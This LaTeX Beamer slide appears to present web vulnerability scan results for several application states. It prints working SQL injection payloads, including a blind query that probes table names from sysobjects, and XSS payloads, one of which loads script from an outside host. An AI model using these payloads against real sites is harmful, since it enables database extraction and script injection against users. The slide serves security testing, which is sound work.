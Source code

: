 \documentclass{beamer}
\begin{document}
\begin{frame}{}
\newline
\\
\textbf{State14: }
\\
\newline
No Reflected XSS and stored Vulnerability not found for script
\newline
\textbf{SQL Injection Vulnerability found for payload}
\\
$1 AND USER$\_$NAME() = 'usr' $
\newline
\\
\textbf{State9: }
\newline
No Reflected and stored XSS Vulnerability not found for script
\newline
\textbf{SQL Injection Vulnerability found for payload}
\\
$1 AND ASCII(LOWER(SUBSTRING $\\ $((SELECT TOP 1 name FROM sysobjects$
\\$WHERE xtype='U'), 1, 1))) > 116 $
\newline
\\
\textbf{State12:} 
\newline
\textbf{Payload Reflected in Response. Reflected XSS Vulnerability found for script}
\\ $<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>$
\newline
\\
\textbf{State13: }
\textbf{Payload loaded from web application. Stored XSS Vulnerability found}
\\$'-alert(3)-'$
\end{frame}
\end{document}

